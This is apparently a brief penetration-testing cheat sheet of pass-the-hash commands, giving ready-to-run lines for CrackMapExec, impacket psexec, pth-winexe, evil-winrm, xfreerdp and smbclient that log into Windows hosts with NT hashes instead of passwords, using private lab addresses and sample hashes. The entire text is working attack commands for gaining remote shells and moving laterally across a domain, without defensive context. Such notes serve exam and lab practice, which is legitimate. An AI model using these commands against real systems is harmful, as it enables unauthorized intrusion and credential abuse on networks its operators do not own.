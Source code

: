 ### CrackmapExec
```bash
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH -d domain.local
crackmapexec smb <target(s)> -u username -H NTHASH
```

### PSExec

```shell
/opt/impacket/examples/psexec.py -hashes :31aa99ebd6ea4b6d07051acfd48efa35 ted@192.168.237.171
```

### PTH-winexe

```shell
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

### Evil-Winrm

```bash
/opt/evil-winrm/evil-winrm.rb -i 10.11.1.121 -u SQLSERVER -H 7ed979523de807702d5338a08d14302b
```

### Xfreerdp

```shell
xfreerdp /v:192.168.237.172 /u:ted@EXAM.COM /pth:31aa99ebd6ea4b6d07051acfd48efa35
```


### SmbClient

```bash
smbclient //192.168.237.171/ -U ted --pw-nt-hash 31aa99ebd6ea4b6d07051acfd48efa35 -W EXAM.COM
```